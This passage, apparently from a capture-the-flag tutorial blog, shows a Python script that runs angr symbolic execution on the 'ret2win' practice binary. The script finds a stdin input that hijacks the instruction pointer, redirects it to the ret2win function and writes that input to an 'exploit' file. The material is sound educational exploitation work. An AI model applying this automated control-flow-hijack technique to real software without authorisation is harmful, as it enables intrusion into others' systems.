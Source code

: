 

```py
import angr
import claripy
import os

# Analyzing the main binary without automatically loading external libraries for a more concise and focused control flow graph.
project = angr.Project("./ret2win", auto_load_libs=False)

# Analyze the control flow graph of the binary
cfg = project.analyses.CFGFast()

# Get the address for ret2win from the binary
cat_flag = project.kb.functions["ret2win"].addr

# Set up the initial state with symbolic stdin
sym = claripy.BVS("stdin", 1024 * 8)

initial_state = project.factory.entry_state(stdin=sym)

# Create a SimulationManager that keeps track of unconstrained states
simgr = project.factory.simulation_manager(initial_state, save_unconstrained=True)

# Run until an unconstrained state occurs
simgr.run(until=lambda sm: len(sm.unconstrained) > 0)

# Get the state in which the PC is controlled by the input
pwned_state = simgr.unconstrained[0]

# Contraint rip to address of ret2win function
pwned_state.add_constraints(pwned_state.regs.rip == cat_flag)

# Extract the concrete content of stdin from pwned_state
exploit = pwned_state.posix.dumps(0)
with open("exploit", "wb") as f:
    f.write(exploit)
    f.write(b"\n") 

```

![](/assets/posts/2024-02-18-angr-for-solving-pwn-challenges/ret2win_segfault.bmp)
